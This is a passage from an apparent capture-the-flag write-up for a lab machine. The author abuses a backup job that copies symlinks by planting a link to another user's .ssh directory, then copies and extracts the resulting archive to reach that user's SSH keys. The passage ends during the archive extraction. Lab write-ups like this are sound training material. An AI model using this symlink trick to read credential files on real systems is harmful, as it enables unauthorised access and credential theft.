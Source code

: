 Also, in `ps aux` output:

```bash
root       58046  0.0  0.0   2608   540 ?        Ss   16:57   0:00      _ /bin/sh -c sleep 30 && sudo -u luis /usr/bin/ansible-playbook /opt/backups/playbook/run.yml
```

So, this file will be running as luis and it has an option `copy_links` which indicates, that it will copy symlinks too.

```bash
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ ls -la
ls -la
total 8
drwxrwxrwx 2 root   root   4096 Oct  5 18:10 .
drwxr-xr-x 7 root   root   4096 May  7 09:26 ..
lrwxrwxrwx 1 tomcat tomcat   16 Oct  5 18:10 .ssh -> /home/luis/.ssh/
tomcat@seal:/var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads$ cd /tmp
cd /tmp
tomcat@seal:/tmp$ ls -la
ls -la
total 488
drwxrwxrwt  5 root   root     4096 Oct  5 18:16 .
drwxr-xr-x 20 root   root     4096 Jul 26 13:43 ..
drwxr-x---  2 tomcat tomcat   4096 Oct  5 18:16 archives
drwxr-x---  2 tomcat tomcat   4096 Oct  5 14:26 hsperfdata_tomcat
-rwxr-x---  1 tomcat tomcat 476162 Oct  2 18:23 linpeas.sh
drwx------  2 tomcat tomcat   4096 Oct  5 16:45 tmux-997
tomcat@seal:/tmp$ cp /opt/backups/archives/* .
cp /opt/backups/archives/* .
tomcat@seal:/tmp$ ls -la
ls -la
total 1084
drwxrwxrwt  5 root   root     4096 Oct  5 18:21 .
drwxr-xr-x 20 root   root     4096 Jul 26 13:43 ..
drwxr-x---  2 tomcat tomcat   4096 Oct  5 18:16 archives
-rw-r-----  1 tomcat tomcat 609572 Oct  5 18:21 backup-2021-10-05-18:20:32.gz
drwxr-x---  2 tomcat tomcat   4096 Oct  5 14:26 hsperfdata_tomcat
-rwxr-x---  1 tomcat tomcat 476162 Oct  2 18:23 linpeas.sh
drwx------  2 tomcat tomcat   4096 Oct  5 16:45 tmux-997
tomcat@seal:/tmp$ mv backup-2021-10-05-18:20:32.gz archives
mv backup-2021-10-05-18:20:32.gz archives
tomcat@seal:/tmp$ cd archives
cd archives
tomcat@seal:/tmp/archives$ ls -la
ls -la
total 2776
drwxr-x--- 2 tomcat tomcat    4096 Oct  5 18:21 .
drwxrwxrwt 5 root   root      4096 Oct  5 18:21 ..
-rw-r----- 1 tomcat tomcat  609572 Oct  5 18:21 backup-2021-10-05-18:20:32.gz
tomcat@seal:/tmp/archives$ mv backup-2021-10-05-18:20:32.gz ssh.gz
mv backup-2021-10-05-18:20:32.gz ssh.gz
tomcat@seal:/tmp/archives$ gzip -dk ssh.gz
gzip -dk ssh.gz
tomcat@seal:/tmp/archives$ tar -xvf ssh
tar -xvf ssh
dashboard/
dashboard/scripts/
dashboard/images/
dashboard/css/
dashboard/uploads/
dashboard/bootstrap/
dashboard/index.html
dashboard/scripts/flot/
dashboard/scripts/datatables/
```